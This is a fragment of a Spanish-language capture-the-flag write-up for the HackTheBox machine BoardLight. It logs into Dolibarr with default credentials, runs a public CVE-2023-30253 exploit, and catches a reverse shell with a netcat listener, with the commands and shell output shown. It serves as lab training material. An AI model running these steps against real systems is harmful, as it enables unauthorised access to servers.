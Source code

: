 Si buscamos en google `Dolibarr default credentials` vemos que son `admin:admin`

![](/assets/img/BoardLight/image_4.png)

Nos `logueamos` en el panel `administrativo`

![](/assets/img/BoardLight/image_5.png)

## Web Exploitation

Nos `descargamos` este `exploit` [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git) y nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 4444
```

`Ejecutamos` el `exploit`

```
# python3 exploit.py http://crm.board.htb admin admin 10.10.16.28 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

`Recibimos` una `shell`

```
# nc -nlvp 4444                                
listening on [any] 4444 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.231.37] 33498
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```
